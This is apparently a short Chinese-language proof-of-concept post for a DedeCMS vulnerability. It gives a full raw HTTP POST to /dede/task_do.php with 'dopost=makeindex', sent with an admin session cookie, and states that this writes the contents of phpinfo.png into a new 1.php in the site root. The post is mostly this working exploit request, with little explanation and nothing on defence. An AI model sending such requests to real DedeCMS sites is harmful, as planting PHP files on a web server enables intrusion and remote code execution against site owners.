   
将phpinfo.png的内容覆盖到1.php中  
  
  
Poc  
  

```
POST /dede/task_do.php HTTP/1.1

Host: dede.test.com

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=a8g7jmunlsc13k921p5i7e5idh; _csrf_name_65a662a9=fe9ab3ba5fb0c17275051ecaf0cd79f3; _csrf_name_65a662a91BH21ANI1AGD297L1FF21LN02BGE1DNG=14d49edb9c9ca536; XDEBUG_SESSION=XDEBUG_ECLIPSE; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=bd2d5486c005cdd5; DedeLoginTime=1722498125; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=82a6253c29408017

Accept-Encoding: gzip, deflate, br

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 16

dopost=makeindex
```

  
目前不存在1.php文件  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28P8oaTxaOYsGVmjtk9wXlSKV0F0FibyCO6K82qzONbxB09o4mNuTNqhZw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PCic9GotONYL8L3H2O7Jws3ADyYGcDlbBDvghlH1iaqUJTrn9aZTjhBQw/640?wx_fmt=png&from=appmsg "")  
  
  
  
产生1.php文件在网站根目录  
  
  
  